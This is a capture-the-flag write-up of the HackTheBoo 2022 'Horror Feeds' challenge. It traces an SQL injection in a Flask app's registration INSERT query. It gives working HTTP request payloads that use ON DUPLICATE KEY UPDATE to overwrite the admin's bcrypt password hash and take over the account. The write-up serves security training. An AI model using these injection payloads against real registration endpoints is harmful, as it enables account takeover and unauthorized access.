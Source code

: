 ## Challenge Description
An unknown entity has taken over every screen worldwide and is broadcasting this haunted feed that introduces paranormal activity to random internet-accessible CCTV devices. Could you take down this streaming service?

We have the source code of a Python application.

In the `entrypoint.sh` file, we see that the application creates a `MySQL/MariaDB` database and populates the following data.

```bash
┌──(darshan㉿kali)-[~/…/HackTheBox/HacktheBoo-ctf-2022/Horror-Feeds/web_horror_feeds]
└─$ cat entrypoint.sh       
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

# Initialize & Start MariaDB
mkdir -p /run/mysqld
chown -R mysql:mysql /run/mysqld
mysql_install_db --user=mysql --ldata=/var/lib/mysql
mysqld --user=mysql --console --skip-networking=0 &

# Wait for mysql to start
while ! mysqladmin ping -h'localhost' --silent; do echo 'not up' && sleep .2; done

mysql -u root << EOF
CREATE DATABASE horror_feeds;

CREATE TABLE horror_feeds.users (
    id INTEGER PRIMARY KEY AUTO_INCREMENT,
    username varchar(255) NOT NULL UNIQUE,
    password varchar(255) NOT NULL
);

INSERT INTO horror_feeds.users (username, password) VALUES ('admin', '$2a$12$BHVtAvXDP1xgjkGEoeqRTu2y4mycnpd6If0j/WbP0PCjwW4CKdq6G');

CREATE USER 'user'@'localhost' IDENTIFIED BY 'M@k3l@R!d3s$';
GRANT SELECT, INSERT, UPDATE ON horror_feeds.users TO 'user'@'localhost';

FLUSH PRIVILEGES;
EOF

/usr/bin/supervisord -c /etc/supervisord.conf  
```

If you look at line `INSERT INTO horror_feeds.users...`, it hardcodes the `admin` user password hash but I'm sure we won't be able to crack it. The challenge is not going to be that easy I guess.

Let's dive into the source code.

In `routes.py` file, we see that when a user is authenticated, the application renders `dashboard.html` template and passes the flag to the template.

![hf-2](https://user-images.githubusercontent.com/87711310/211261834-74448e65-a5f6-4adc-9fab-7bbf640e2627.png)

However, the flag gets printed on the dashboard only when the authenticated user is admin, as shown in the following screenshot.

![hf-3](https://user-images.githubusercontent.com/87711310/211261836-4ff04f39-af49-4da2-bc31-370404f46b3e.png)

So now, we need to authenticate as `admin`. I have checked the authentication logic and it seems to be fine. We also have a user `registration` feature. May be we can trick the application to register another `admin` user?

Let's take a look at the code.

So the `/register` route calls the `register` function from `database.py`.

![hf-4](https://user-images.githubusercontent.com/87711310/211262434-97abc661-eebf-4868-8429-0c1e69bb569d.png)

In the `register` function, we see that there's an `SQL injection` on line 37 in `INSERT` SQL query.

![hf-5](https://user-images.githubusercontent.com/87711310/211262437-6632d973-0a8f-4a62-ae67-754d937ac02f.png)


Well, this `SQL injection` is not going to support `stacked queries` so we cannot do `UPDATE` query to `update the password` of the existing `admin` user. We can only modify the current `INSERT` statement. Maybe we can insert `another user with username admin`? Would that be helpful? Let's take a look.

But wait, that won't work either because the `username` column has the `UNIQUE` constraint set. This can be verified in `entrypoint.sh`.

![hf-6](https://user-images.githubusercontent.com/87711310/211264350-f543a701-25fa-4801-9b9f-dfd85b75f4da.png)

The `UNIQUE` constraint on a MySQL column means that two rows cannot have the same value for this column. MySQL throws an exception in that case. We can give this a try. Let's spawn the target instance and view the application in the browser.

![hf-0](https://user-images.githubusercontent.com/87711310/211264449-97f2303d-c782-4fdc-aa2c-5a793ab383a0.png)

Since none the SQL Injection techniques worked, I just registered with a simple username & password: `test:test` to check what happens.

Registering the new user and logging in, on the home page it shows spooky CCTV footage as told in the challenge description. There’s nothing more.

![hf-1](https://user-images.githubusercontent.com/87711310/211264442-2183f211-7c5f-4761-b242-ba5348463b65.png)

The is what the `register` API request looks like.


```
POST /api/register HTTP/1.1
Host: 178.62.79.95:31900
Content-Length: 221
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://178.62.79.95:31900
Referer: http://178.62.79.95:31900/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
{"username":"test","password":"test"}
```

If we try to create a user with username admin, we get the following error.

![hf-9](https://user-images.githubusercontent.com/87711310/211267438-3d1d851c-ffa1-4094-bcc4-0aae8d201096.png)

However, note that this is not the exception by MySQL I was referring to earlier. This error is returned because of the lines `32, 33` in the `register` function.

![hf-10](https://user-images.githubusercontent.com/87711310/211269408-459f89b4-17d1-4d15-9c42-90265557f13b.png)

Before the `INSERT` query, the application checks if the `username` already exists in the `users` table using a `SELECT` query. This `SELECT` query is not vulnerable to SQL injection. We can bypass this check by not creating the user this way. We can instead exploit the SQL injection to create another user with username `admin`. It would at least bypass this check.

Let's give it a try. I'll create a bcrypt hash of a known string because that's what we need to store in the database in the `password` column. So `$2a$12$q.YMW3ajoRGnS3qvpCePCOp12mpZsyKU2UnWaHq.LZjYcoL4wCx0.` is the bcrypt hash of `test`. I'll use this as a password.


Here's the payload.

```
POST /api/register HTTP/1.1
Host: 206.189.117.93:32296
Content-Length: 105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.117.93:32296
Referer: http://206.189.117.93:32296/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
{
    "username": "admin\", '$2a$12$q.YMW3ajoRGnS3qvpCePCOp12mpZsyKU2UnWaHq.LZjYcoL4wCx0.')#",
    "password": "test"
}
```

Now, we get the MySQL exception because of the UNIQUE constraint.

![hf-11](https://user-images.githubusercontent.com/87711310/211269416-700ae10f-3ede-450c-9537-2dff4f35f55e.png)

After googling for a while, I found out a trick that we can use here.

In `MySQL/MariaDB`, we can perform the INSERT query in a way that if there's already a duplicate UNIQUE column, we can perform an UPDATE query on the already existing row which has the duplicate value, and it doesn't even require the stacked queries. It would require the use of ON DUPLICATE KEY UPDATE clause. This is what it looks like.

You can find the detailed document [here](https://mariadb.com/kb/en/insert-on-duplicate-key-update/)


```
INSERT INTO users (username, password) VALUES ('admin', 'password-hash') ON DUPLICATE KEY UPDATE username='admin',password='some-known-password-hash';
```

Here's what the payload looks like in this case:
```
POST /api/register HTTP/1.1
Host: 206.189.117.93:32296
Content-Length: 105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://206.189.117.93:32296
Referer: http://206.189.117.93:32296/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
 
{
    "username": "admin\", '$2a$12$q.YMW3ajoRGnS3qvpCePCOp12mpZsyKU2UnWaHq.LZjYcoL4wCx0.') ON DUPLICATE KEY UPDATE username='admin',password='$2a$12$q.YMW3ajoRGnS3qvpCePCOp12mpZsyKU2UnWaHq.LZjYcoL4wCx0.'#",
    "password": "test"
}
```

Seems like it worked.

![hf-12](https://user-images.githubusercontent.com/87711310/211273728-9120de24-2e60-46a8-bf15-3d63c02313d2.png)

Let's login with username `admin` and password `test`.

And..... we have the flag.

![hf-13](https://user-images.githubusercontent.com/87711310/211274438-eb46c08d-3ec1-430d-940a-3421d7dcbc74.png)
